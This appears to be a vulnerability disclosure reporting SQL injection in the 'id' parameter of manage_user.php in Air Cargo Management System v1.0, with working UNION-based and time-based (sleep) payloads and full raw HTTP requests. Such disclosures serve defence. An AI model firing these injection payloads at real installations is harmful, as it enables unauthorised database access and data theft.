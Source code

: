 # Air Cargo Management System v1.0 has SQL injection

BUG_Author: lizhe

Website source address:https://www.sourcecodester.com/php/15188/air-cargo-management-system-php-oop-free-source-code.html

Vulnerability File: /acms/admin/user/manage_user.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=-1' union all select null,null,null,concat(0x32333435,0x52535455,0x62636465),null,null,null,null,null,null-- -

```
GET /acms/admin/user/manage_user.php?id=-1%27%20union%20all%20select%20null,null,null,concat(0x32333435,0x52535455,0x62636465),null,null,null,null,null,null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=b474rdfl9bppo3rms87201i42t
Connection: close
```

union query success

![image](https://github.com/west9b/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 1 from (select(sleep(20)))a) and 'c'='c

```
GET /acms/admin/user/manage_user.php?id=1%27%20and%20(select%201%20from%20(select(sleep(20)))a)%20and%20%27c%27=%27c HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=b474rdfl9bppo3rms87201i42t
Connection: close
```

Server response time is 20 seconds

![image](https://github.com/west9b/bug_report/blob/main/sql2.png)
